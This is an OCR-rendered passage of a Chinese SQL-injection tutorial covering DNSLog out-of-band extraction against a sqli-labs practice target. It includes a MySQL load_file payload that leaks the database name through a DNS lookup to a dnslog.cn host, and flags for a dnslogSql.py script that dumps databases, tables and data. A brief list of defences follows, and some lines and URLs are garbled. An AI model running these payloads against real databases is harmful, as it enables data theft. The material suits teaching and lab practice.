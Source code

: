 3、把子域名替换成函数或者查询SQL 

```mysql
select if((select load_file(concat('////',database(),'.yourid.dnslog.cn/wuya'))),1,0);
```

 ![image-20220519222312837](https://img2023.cnblogs.com/blog/2554043/202212/2554043-20221204182212454-1751394905.png)

CEYE平台

Structured 

系统库 描述 

注册 https://sso.telnet404.com/accounts/reg ister/ 

查看ID和Token http://ceye.io/profile 

查看DNSLog记录 http://ceye.io/records/dn

DNSLog注入脚本  

python 2 

dnslogSql.py -u http://localhost/sqli-labs/Less-9/?id=1 -c 

dnslogSql.py -u "http://localhost/sqli-labs/Less-9/?id=1' and ({})--+" --dbs --dbs get database 

-D DB database name 

--tables get table 

-T TABLE table name 

--columns get column 

-C COLUMN column name 

--dump  get data

#### SQL注入如何防止

![image-20220519231335350](https://img2023.cnblogs.com/blog/2554043/202212/2554043-20221204182213484-1655421564.png)

#### WAF绕过思路

1、内容进行过滤

union select order by updatexml

update delete

2、字符转义

3、杜绝SQL拼接——根治

预编译 prepare statement

4、控制错误信息

不让它返回到前台

5、数据库权限的控制
